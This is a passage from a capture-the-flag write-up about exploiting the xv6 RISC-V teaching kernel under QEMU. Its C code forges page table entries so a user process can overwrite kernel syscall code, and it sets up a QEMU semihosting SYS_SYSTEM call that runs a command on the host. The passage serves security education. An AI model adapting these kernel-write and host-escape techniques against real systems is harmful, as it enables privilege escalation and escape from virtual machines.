 Now that we have a pointer to our own top level page table, we can create fake
entries to point to some kernel function and overwrite it with our own code. A
random syscall is the perfect choice for this, and we can find its (fixed)
physical address easily with `readelf`.

```c
const uint64 sys_uptime_pa = 0x80002d3cUL;
my_pagetable[1] = ((table_lvl1_pa >> 12) << 10) | 0x1; // valid
table_lvl1[0]   = ((table_lvl0_pa >> 12) << 10) | 0x1; // valid
table_lvl0[0]   = (((sys_uptime_pa & ~0xfffUL) >> 12) << 10) | 0x17; // valid, RW, user

// Virtual address that will follow the fake page table entries we just set up
uint64 *const sys_uptime = (uint64 *)((1 << (12 + 9 + 9)) + (sys_uptime_pa & 0xfff));
```

Writing through the `sys_uptime` poiter will now overwrite kernel code. What do
we write there? As the [challenge readme](./src/PLAYER_README.md) states, the
flag is in the QEMU host, and we need to leverage the "semihosting" feature of
QEMU to get it.

Making a semihosting call simply consists of writing a special sequence of
instruction (non compressed) RISCV-64 instructions surrounding an `ebreak`. As
already mentioned earlier, a few blog posts and examples canbe found online
about this. The `SYS_SYSTEM` semihosting call gives us a shell on the host, so
that's sweet.

We will need to write the semihosting call arguments to some physical address
that is readable from kernel mode, as `SYS_SYSTEM` takes a pointer to a struct
of the following form:

```c
struct system_args {
 char *cmd;
 uint64_t cmd_length;
}
```

We can simply reuse one of the fake page tables for this:

```c
// Found through GDB, 100% predictable
static const uint64 my_pagetable_pa  = 0x87f42000UL;
static const uint64 table_lvl1_pa    = 0x87f43000UL;
static const uint64 table_lvl0_pa    = 0x87f72000UL;
// Borrow for level 0 tbl semihosting args
static const uint64 semihost_args_pa = table_lvl0_pa + 0x800;

int main(void) {
 // ...

 uint64 *const table_lvl1 = (uint64 *)sbrk(0x2000);
 uint64 *const table_lvl0 = table_lvl1 + 512;
 uint64 *const semihost_args = table_lvl0 + (0x800 / 8);
 const char *const cmd = "cat flag";

 // Setup semihosting call args for later use by kernel code
 semihost_args[0] = semihost_args_pa + 0x10;
 semihost_args[1] = strlen(cmd);
 memcpy(semihost_args + 2, cmd, strlen(cmd));

 // ...
}
```


[xv6]: https://pdos.csail.mit.edu/6.1810/2023/xv6.html
[xv6-book]: https://pdos.csail.mit.edu/6.1810/2023/xv6/book-riscv-rev3.pdf
[xv6-riscv]: https://github.com/mit-pdos/xv6-riscv
[blogpost-1]: https://embeddedinn.com/articles/tutorial/understanding-riscv-semihosting/
[riscv-semihosting-repo]: https://github.com/riscv-non-isa/riscv-semihosting
[xv6-src-sys_sbrk]: https://github.com/mit-pdos/xv6-riscv/blob/f5b93ef12f7159f74f80f94729ee4faabe42c360/kernel/sysproc.c#L39
[xv6-src-growproc]: https://github.com/mit-pdos/xv6-riscv/blob/f5b93ef12f7159f74f80f94729ee4faabe42c360/kernel/proc.c#L260
[xv6-src-uvmalloc]: https://github.com/mit-pdos/xv6-riscv/blob/f5b93ef12f7159f74f80f94729ee4faabe42c360/kernel/vm.c#L226
[xv6-src-kalloc]: https://github.com/mit-pdos/xv6-riscv/blob/f5b93ef12f7159f74f80f94729ee4faabe42c360/kernel/kalloc.c#L69